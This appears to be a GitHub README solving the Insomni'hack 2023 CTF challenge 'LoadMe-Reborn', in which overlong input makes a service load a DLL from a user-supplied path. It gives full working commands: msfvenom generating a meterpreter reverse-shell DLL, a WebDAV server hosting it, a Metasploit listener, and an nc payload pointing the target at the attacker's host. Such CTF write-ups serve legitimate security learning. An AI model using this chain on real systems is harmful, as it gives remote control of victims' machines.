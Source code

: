 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to the app :
(I have forgot the command that they gave us, but it should be like this one)
```
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type ingredients' list so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we can have access to the server that is running the app. For that I have used msfvenom (.DLL in uppercase) : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => your_ip_address
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and enter the string between the quotes in the app. Now in the shell where you had executed the reverse shell command, you have now access to the server and can get the flag who is in the .txt file !
## Sources
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
